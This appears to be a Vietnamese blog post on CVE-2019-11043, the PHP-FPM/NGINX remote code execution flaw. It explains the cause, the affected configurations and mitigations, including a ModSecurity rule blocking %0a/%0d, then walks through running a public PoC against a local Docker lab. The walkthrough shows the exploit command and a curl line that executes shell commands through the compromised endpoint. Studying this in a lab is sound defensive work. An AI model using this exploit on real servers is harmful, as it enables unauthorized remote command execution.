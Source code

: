 ![](https://images.viblo.asia/1e9642a2-ef48-4006-a96f-ae4084f33fcf.png)
Một lỗ hổng được báo cáo gần đây, có mã là CVE-2019-11043, có thể ảnh hưởng đến các trang web sử dụng PHP-FPM để thực thi các trang PHP. Việc sử dụng PHP-FPM đặc biệt phổ biến tại các trang web sử dụng NGINX vì NGINX không có thời gian chạy PHP trong tiến trình. Thay vào đó, NGINX hoạt động như một Reverse Proxy cho các máy chủ ứng dụng và trình quản lý tiến trình như PHP-FPM.

Lỗ hổng này nằm ở chính PHP-FPM chứ k phải là NGINX. Vì vậy cách giải quyết đơn giản và đảm bảo hiệu quả là nâng cấp bản vá hoặc cập nhật version PHP lên PHP 7.1.33, PHP 7.2.24 hoặc PHP 7.3.11.

## Bản chất của lỗ hổng
NGINX giao tiếp với PHP-FPM bằng giao thức FastCGI. Mỗi thông báo FastCGI chứa một tập hợp các biến môi trường. Một trong số này, PATH_INFO được lấy từ các request parameters. Nếu giá trị của nó đột nhiên "empty", nó có thể gây ra hỏng bộ nhớ trong PHP-FPM binary. Có thể khai thác lỗi này và làm cho PHP-FPM binary chạy các lệnh tùy ý trên local server.

Lỗ hổng này được kích hoạt bởi một cấu hình NGINX được mọi người hay dùng, theo đó, NGINX sử dụng một regex chỉ định **fastcgi_split_path_info** tách URI theo yêu cầu thành 2 phần. Một cách để kích hoạt lỗ hổng này là nhúng ký tự ngắt dòng (**%0a**) hoặc ký tự (**%0d**) vào request URI, sau đó nó không được xử lý theo kiểu bình thường :v: 

## Những website nào có thể bị ảnh hưởng
Hiện tại những trang web có các server NGINX chạy các phiên bản PHP 7 trở lên có thể bị ảnh hưởng. Lỗi underflow PHP-FPM cũng có thể bị ảnh hưởng đến các phiên bản PHP trở về trước.

Một website có thể dính lỗ hổng này nếu website được cấu hình như sau:
- NGINX được config chuyển tiếp yêu cầu của các trang PHP đến PHP-FPM để xử lý.
- **fastcgi_split_path_info** được sử dụng trong tệp cấu hình và sử dụng regex được bắt đầu bằng "^" và kết thúc bằng "$"
- Biến PATH_INFO được sử dụng với fastcgi_param directive.

### Xử lý:
- Upgrade lên phiên bản PHP mới hơn.
- Nếu bạn không thể upgrade version PHP ngay lập tức, thì có một tùy chọn để giảm thiểu một phần mà bạn có thể thực hiện
    - Thêm `try_files $uri = 404;` vào file config của NGINX.
    - Sử dụng ModSecurity để chặn các yêu cầu có chứa *%0a* hoặc *%0d* 

        `SecRule REQUEST_URI "@rx %0(a|A|d|D)" "id:1,phase:1,t:lowercase,deny"`
## Thực hành
Ở đây mình đã tìm thấy một [PoC](https://github.com/theMiddleBlue/CVE-2019-11043) có build docker để mình có thể thực hành với lỗ hổng mới này.

https://github.com/theMiddleBlue/CVE-2019-11043

#### Các bước thực hiện.
```bash
git clone https://github.com/theMiddleBlue/CVE-2019-11043.git
cd CVE-2019-11043
docker-compose up -d
```
(nếu `docker-compose up -d` bị lỗi thì bạn nên kiểm tra lại tệp `docker-compose.yml` xem đã cấu hình đúng chưa)

![](https://images.viblo.asia/d4901065-a615-4d41-ac7a-38aae91ca86f.png)

Nếu bạn lên được như này thì là thành công rồi. Tiếp tục thử nghiệm tấn công.

```bash
python exploit.py --url https://localhost:3000/index.php
```

Bạn có thể đọc logs PHP-FPM bằng lệnh:
```bash
docker logs --tail 10 --follow php
```

```bash
[*] QSL candidate: 1752, 1757, 1762
[*] Target seems vulnerable (QSL:1752/HVL:233): PHPSESSID=e917394e3b139d62fe86807e7f918f50; path=/
[*] RCE successfully exploited!

    You should be able to run commands using:
    curl http://localhost:3000/index.php?a=bin/ls+/
```

![](https://images.viblo.asia/6be47122-d05a-4b9b-9ff6-ca05e5fe32d8.png)

Bingo. Vậy là bạn đã có thể remote server rồi. 

## Tham khảo
- https://www.nginx.com/blog/php-fpm-cve-2019-11043-vulnerability-nginx/
- https://github.com/theMiddleBlue/CVE-2019-11043
- https://paper.seebug.org/1064/